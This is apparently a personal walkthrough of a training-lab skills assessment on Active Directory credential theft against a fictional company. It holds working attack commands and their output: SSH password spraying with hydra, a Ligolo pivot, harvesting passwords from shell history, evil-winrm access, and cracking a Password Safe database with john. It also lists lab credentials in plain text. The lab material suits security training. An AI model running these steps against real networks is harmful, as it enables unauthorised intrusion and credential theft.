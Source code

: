 ## The Credential Theft Shuffle
[The Credential Theft Shuffle](https://adsecurity.org/?p=2362), as coined by `Sean Metcalf`, is a systematic approach attackers use to compromise Active Directory environments by exploiting `stolen credentials`. The process begins with gaining initial access, often through phishing, followed by obtaining local administrator privileges on a machine. Attackers then extract credentials from memory using tools like Mimikatz and leverage these credentials to `move laterally across the network`.

## Skills Assessment
`Betty Jayde` works at `Nexura LLC`. We know she uses the password `Texas123!@#` on multiple websites, and we believe she may reuse it at work. Infiltrate Nexura's network and gain command execution on the domain controller. The following hosts are in-scope for this assessment:

| Host     | IP Address                                                  |
| -------- | ----------------------------------------------------------- |
| `DMZ01`  | `10.129.*.*` **(External)**, `172.16.119.13` **(Internal)** |
| `JUMP01` | `172.16.119.7`                                              |
| `FILE01` | `172.16.119.10`                                             |
| `DC01`   | `172.16.119.11`                                             |

#### Pivoting Primer
The internal hosts (`JUMP01`, `FILE01`, `DC01`) reside on a private subnet that is not directly accessible from our attack host. The only externally reachable system is `DMZ01`, which has a second interface connected to the internal network. This segmentation reflects a classic DMZ setup, where public-facing services are isolated from internal infrastructure.

To access these internal systems, we must first gain a foothold on `DMZ01`. From there, we can `pivot` — that is, route our traffic through the compromised host into the private network. This enables our tools to communicate with internal hosts as if they were directly accessible. After compromising the DMZ, refer to the module `cheatsheet` for the necessary commands to set up the pivot and continue your assessment.


## Questions
What is the NTLM hash of NEXURA\Administrator?

## Solution
Full Name: Betty Jayde
Password: Texas123!@#

DMZ01: 10.129.234.116 (External) -> Linux Machine

1. Firstly let's scan the IP to list open port:
```shell
> nmap -sC -sV -Pn 10.129.234.116 -oA dmz01_scan

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 7108b0c4f3ca9757649770f9fec50c7b (RSA)
|   256 45c3b51463993d9eb32251e59776e150 (ECDSA)
|_  256 2ec2416646efb68195d5aa3523945538 (ED25519)
```

2. We can connect to the target machine with password given but we don't know the username yet. We can create a list of possible username with our custom tool and try every possibilities with hydra. We could also use username-anarchy tool.
```shell
> echo 'Betty Jayde' > users.txt
> ADUsersGen -l users.txt  > userlist.txt
> cat userlist.txt
bjayde
bettyjayde
jaydebetty
betty.jayde
jayde.betty
b.jayde
betty
jayde
jbetty

> hydra -L userlist.txt -p 'Texas123!@#' -f 10.129.234.116 ssh
[22][ssh] host: 10.129.234.116   login: jbetty   password: Texas123!@#

Username: jbetty
Password: Texas123!@#

> ssh jbetty@10.129.234.116
```

![[screenshot-2025-10-10_14-23-30.png]]

3. Set up Ligolo to make DMZ01 machine our pivot
```shell
DONT RUN LIGOLO ON EXEGOL

1. Import agent binary to compromised host DMZ01 with http server.
2. Create interface for ligolo :
> sudo ip tuntap add user vdarras mode tun ligolo

3. Enable the interface 
> sudo ip link set ligolo up

4. Run ligolo proxy on host machine
> ./proxy -selfcert 

5. Run Agent on target machine to establish connection:
Target > ./agent -connect 10.10.14.237:11601 -ignore-cert

6. We get connection back on host machine we can now use our session 1.
ligolo > session
ligolo > 1
ligolo > ifconfig (Agent interfaces)

7. Add rule to routing table, we have to add the target internal subnetwork to our routing table (Not on exegol)
> 
```
![[Pasted image 20251010175900.png]]
```shell
We can confirm that it has beem added with this command on the screenshot above.

8. Start the tunnel on Ligolo session.
ligolo > start
```

4. Tunnel is done, we can now interact with the internal network. Let's scan the 3 inernal hosts
```shell
> cat hosts.txt
172.16.119.7
172.16.119.10
172.16.119.11

> nmap -sC -sV -Pn -iL hosts.txt -oA internal
```

5. Try to find credentials
```shell
ssh > cat .bash_history
sshpass -p "dealer-screwed-gym1" ssh hwilliam@file01

On HOST FILE01 (172.16.119.10) : hwilliam:dealer-screwed-gym1

Thanks to the nmap scan we can see WinRM service is running:

> evil-winrm -u "hwilliam" -p 'dealer-screwed-gym1' -i "172.16.119.7"
*Evil-WinRM* PS C:\Users\hwilliam\Documents>
```

6. Find a .lnk file in hwilliam Desktop
```shell
*Evil-WinRM* PS C:\Users\hwilliam\Desktop> [Convert]::ToBase64String((Get-Content -path "C:/Users/hwilliam/Desktop/Password Safe 3.lnk" -Encoding byte))
TAAAAAEUAgAAAAAAwAAAAAAAAEabAAgAIAAAAACBBWfPl9sBnuzAMBm52wEAgQVnz5fbAWDTZwAAAAAAAQAAAAAAAAAAAAAAAAAAAAoCFAAfUOBP0CDqOmkQotgIACswMJ2kAC9DOlwAAAAAAAAAAAAAAAAAAAAAAAAAiwAAACcA7759AAAAMVNQU7edrv+NHP9DgYyEQDqjcy1hAAAAZAAAAAAfAA<...SNIP...>

On the linux machine paste the base64, decode it and redirect it to a file.

> echo 'TAAAAAEUAgAAAAAAwAAAAAAAAEabAAgAIAAAAACBBWfPl9sBnuzAMBm52wEAgQVnz5fbAWDTZwAAAAAAAQAAAAAAAAAAAAAAAAAAAAoCFAAfUOBP0CDqOmkQotgIACswMJ2kAC9DOlwAAAAAAAAAAAAAAAAAAAAAAAAAiwAAACcA7759AAAAMVNQU7edrv+NHP9DgYyEQDqjcy1hAAAAZAAAAAAfAAAAKAAAAE0AaQBjAHIAbwBzAG8AZgB0AC4AVwBpAG4AZABvAHcAcwAuAEMAbwByAHQAYQBuAGEAXwBjAHcANQBuADEAaAAyAHQAeAB5AGUAdwB5AAAAAAAAAAAAAAAZAIwAMQAAAAAAnVqdeREAUFJPR1JBfjEAAHQACQAEAO++L01hOp1anXkuAAAAQgAAAAAAAQAAAAAAAAAAAEoAAAAAAOP8AwB<SNIP>' | base64 -d > password.lnk

Lets see what we can find with small static analysis
> strings password.lnk
...
PROGRA~1
/Ma:
PASSWO~1
pwsafe.exe
C:\Program Files\Password Safe\pwsafe.exe
jump01
...

We can see that pwsafe is running to manage password locally in a .psafe3 database. 
```

7. We can connect in rdp and open Password Safe program. We need a .psafe3 database AND we also need a password to enter it.
```shell
We see that we have access to a share called HR and we find this file:
\\file01\HR\Archive\Employee-Passwords_OLD.psafe3
Get the file on host with rdp shared volume

On exegol:
> pwsafe2john.py Employee-Passwords_OLD.psafe3 > hash
> john hash --wordlist=rockyou.txt
michaeljackson   (Employee-Passwords_OLD)

Enter into the database via RDP and we can collect those passwords:

bdavid:caramel-cigars-reply1
stom:fails-nibble-disturb4 
```
